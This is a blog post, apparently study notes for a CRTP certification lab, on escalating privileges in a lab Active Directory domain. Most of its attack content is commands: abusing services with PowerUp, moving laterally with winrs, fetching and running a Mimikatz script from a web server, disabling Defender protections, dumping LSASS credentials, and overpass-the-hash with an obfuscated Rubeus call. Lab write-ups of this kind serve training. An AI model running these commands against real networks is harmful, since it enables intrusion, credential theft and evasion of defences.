 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     ## TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



#### Local Privilege Escalation

 In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

 There are various ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 We can use below tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

#### Check for any privilege escalation path - PowerUp

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

{: .prompt-info }
```bash
##Check for any priviliege escalation path
Invoke-AllChecks

##Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

Now, our user is a local admin !

#### Identify any machine in the domain where our user has local administrative - Find-PSRemotingLocalAdminAccess.ps1

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 

{: .prompt-info }
```bash
##Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```

We can connect to the machine who has the local administrative access by using winrs
{: .prompt-info }
```bash
winrs -r:dcorp-adminsrv cmd

##Checking the username and computername in the remote winrs session
set username
set computername
```

We can also use PowerShell Remoting
{: .prompt-info }
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

#### Identify a machine in the domain where a Domain Admin session is available - PowerView

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.
{: .prompt-info }
```bash
Find-DomainUserLocation
```

#### Extract Credentials from LSASS - Invoke Mimikatz

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting
{: .prompt-info }
```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.
{: .prompt-info }
```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt

{: .prompt-info }
```bash
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
```

#### Using OverPass-the-Hash - Rubeus

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.
{: .prompt-info }
```bash
ArgSplit.bat

##Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```

{: .prompt-info }
```bash
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.
{: .prompt-info }
```bash
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
```

#### Domain Admin Escalation using Derivative Local Admin - Find-PSRemotingLocalAdminAccess.ps1

{: .prompt-info }
```bash
 Find-PSRemotingLocalAdminAccess
```

Bypassing Applocker
